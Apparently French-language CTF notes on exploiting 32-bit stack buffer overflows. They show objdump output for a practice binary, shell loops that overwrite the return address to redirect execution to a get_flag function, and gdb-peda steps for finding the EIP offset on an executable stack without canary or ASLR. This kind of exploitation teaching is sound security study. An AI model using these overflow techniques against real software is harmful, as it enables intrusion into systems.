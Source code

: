 </br>

## Internal function call

On regarde les fonctions et leurs adresses
````
$ objdump -D ./strcpy
08048533 <get_flag_1>:
 8048533:	55                   	push   %ebp
 8048534:	89 e5                	mov    %esp,%ebp
 8048536:	83 ec 08             	sub    $0x8,%esp
 8048539:	83 ec 0c             	sub    $0xc,%esp
 804853c:	68 20 86 04 08       	push   $0x8048620
 8048541:	e8 1a fe ff ff       	call   8048360 <system@plt>
 8048546:	83 c4 10             	add    $0x10,%esp
 8048549:	c9                   	leave
 804854a:	c3                   	ret

0804854b <get_flag_2>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%e
````
get_flag_2 est en 0804854b, on va pousser 0804854b en bout de notre fuzzer, et le faire glisser jusqu'à ce qu'il tombe sur EIP et appelle la fonction get_flag_2
````
$ for i in `seq 1 100`;do echo $i; ./strcpy $(python -c "print 'a'*$i+'\x4b\x85\x04\x08';"); done
````

</br>

## Execute stack payload : before ESP

Context:
- Executable stack
- No canary
- No Address Space Layout Randomization
=> Adresses are hard coded in elf

gcc -z execstack 


Detection à la louche de l'overflow en shell
````
$ for i in `seq 500 510`;do echo $i; ./vuln_basic $(python -c "print 'a'*$i;"); done
$ for i in `seq 10 2000`; do echo $i; /usr/local/bin/chal $(python -c "print 'A'*$i"); if [[ $? != 0 ]]; then break; fi; done;
````

Detection fine de la position dans gdb
````
gdb
disassemble main
break *0x0804844e
gdb-peda$ run $(python -c "print 'a'*512+'bcdefghijklmnopqrst';")
Stopped reason: SIGSEGV
0x65646362 in ?? ()
=> bcde
gdb-peda$ x/520x $esp
````
